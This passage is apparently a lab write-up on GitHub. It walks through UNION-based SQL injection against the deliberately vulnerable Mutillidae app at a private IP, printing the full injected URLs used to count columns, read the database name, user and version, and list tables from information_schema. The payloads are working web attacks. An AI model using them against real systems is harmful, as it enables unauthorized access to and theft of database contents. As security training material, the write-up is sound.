 
Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details ![280632732-f51f6d24-b173-4beb-84fa-ff998120acbb](https://github.com/Bakkiyalakshmi29/sqlinjection/assets/119406233/566c31d2-3731-4db5-a392-a1442d128d1f)


After adding the order by 6 into the existing url , the following error statement will be obtained ![280632981-2775edc4-0acf-4f28-82c8-6aa6baee62c9](https://github.com/Bakkiyalakshmi29/sqlinjection/assets/119406233/207f12c7-1c41-4a0a-baf7-fb74fb452f25)


When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6. ![280633227-96a104c2-7217-44d7-ba86-b9d0eea8bfc2](https://github.com/Bakkiyalakshmi29/sqlinjection/assets/119406233/4e6cb4cd-1e64-44f3-881c-02b802a9d62f)


As it is having 5 columns the query worked fine and it provides the correct result image Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)

![280633527-8c09ba9e-3e99-4258-a59a-eb062b6419c7](https://github.com/Bakkiyalakshmi29/sqlinjection/assets/119406233/2bc76a7c-e21a-488d-b551-02e685eed405)


As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information. image

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

![280633720-48258dc8-3682-4559-b5b7-6e898be15877](https://github.com/Bakkiyalakshmi29/sqlinjection/assets/119406233/d8087e9c-9958-4496-b4cc-838f31784259)


The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.![280633887-b61f8174-f8a9-4c45-b79f-0a171d6927aa](https://github.com/Bakkiyalakshmi29/sqlinjection/assets/119406233/37e092f6-38bb-47b6-92dd-49d7fa7394a6)


Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details ![280634083-70be5b5a-20eb-4a3a-9a74-9e1f35d4dfd0](https://github.com/Bakkiyalakshmi29/sqlinjection/assets/119406233/3203465b-21e5-4944-a7a7-11f2a7c8e6f4)
